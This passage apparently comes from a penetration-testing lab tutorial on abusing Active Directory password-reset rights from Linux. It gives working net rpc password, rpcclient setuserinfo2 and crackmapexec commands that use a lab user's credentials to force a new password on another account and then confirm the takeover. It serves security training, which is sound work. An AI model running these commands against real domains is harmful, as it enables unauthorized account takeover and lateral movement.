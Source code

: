 ## Abusing PasswordReset from Linux

To perform a password reset from Linux, we can use [net](https://linux.die.net/man/8/net). This operation does not require admin rights, meaning we can use it; unlike in Windows, using `net user` to perform a password reset requires Administrative privileges. Additionally, [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can be used to run net commands with `pass-the-hash`:

#### Validating the Credentials

```shell
poetry run crackmapexec ldap 10.129.205.81 -u yolanda -p Mynewpassword1

SMB         10.129.205.81   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.129.205.81   445    DC01             [-] INLANEFREIGHT.LOCAL\yolanda:Mynewpassword1

```

#### Password Reset with net

```shell
net rpc password yolanda Mynewpassword1 -U inlanefreight.local/pedro%SecuringAD01 -S 10.129.205.81

```

#### Validating the Credentials

```shell
poetry run crackmapexec ldap 10.129.205.81 -u yolanda -p Mynewpassword1
SMB         10.129.205.81   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.129.205.81   389    DC01             [+] INLANEFREIGHT.LOCAL\yolanda:Mynewpassword1

```

Also, we can use `rpcclient` to perform a password reset from Linux as follows:

#### Password Reset with rpcclient

```shell
rpcclient -U INLANEFREIGHT/pedro%SecuringAD01 10.129.205.81

rpcclient $> setuserinfo2 yolanda 23 Mynewpassword2
rpcclient $> exit

```

#### Validating the Credentials

```shell
poetry run crackmapexec ldap 10.129.205.81 -u yolanda -p Mynewpassword2

SMB         10.129.205.81   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
LDAP        10.129.205.81   389    DC01             [+] INLANEFREIGHT.LOCAL\yolanda:Mynewpassword2

```
